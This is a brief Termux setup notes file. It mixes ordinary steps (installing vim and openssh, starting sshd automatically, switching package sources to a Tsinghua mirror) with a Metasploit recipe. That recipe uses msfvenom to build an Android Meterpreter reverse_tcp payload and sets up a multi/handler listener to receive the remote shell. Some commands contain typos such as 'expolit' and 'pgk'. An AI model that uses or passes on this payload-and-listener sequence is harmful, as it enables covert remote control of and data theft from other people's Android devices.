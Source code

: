 # termux
---

apt update && apt upgrade

pkg install unstable-repo

pkg install metasploit

msfvenom -p android/meterpreter/reverse_tcp LHOST=

msfconsole

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST 

set LPORT

expolit

pkg install vim

passwd

pgk upgrade

pkg install openssh 8022

sshd

pkill ssh

apt install tsu

tsu

echo "sshd" >> ~/.bashrc auto-ssh

手动修改

编辑 $PREFIX/etc/apt/sources.list 修改为如下内容

deb https://mirrors.tuna.tsinghua.edu.cn/termux/termux-packages-24 stable main

编辑 $PREFIX/etc/apt/sources.list.d/science.list 修改为如下内容

deb https://mirrors.tuna.tsinghua.edu.cn/termux/science-packages-24 science stable

编辑 $PREFIX/etc/apt/sources.list.d/game.list 修改为如下内容

deb https://mirrors.tuna.tsinghua.edu.cn/termux/game-packages-24 games stable
